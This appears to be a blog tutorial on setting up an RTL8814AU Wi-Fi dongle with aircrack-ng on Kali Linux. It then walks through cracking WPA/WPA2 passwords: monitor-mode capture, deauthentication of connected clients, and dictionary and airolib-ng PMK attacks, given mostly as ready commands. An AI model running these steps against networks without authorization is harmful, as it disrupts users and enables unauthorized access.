 ```yaml
---
title: Using Aircrack-ng with RTL8814AU
date: '2019-07-28'
tags: []
type: Blog
license: CC BY-SA 4.0
---
```


For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.png)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.png)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.png)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

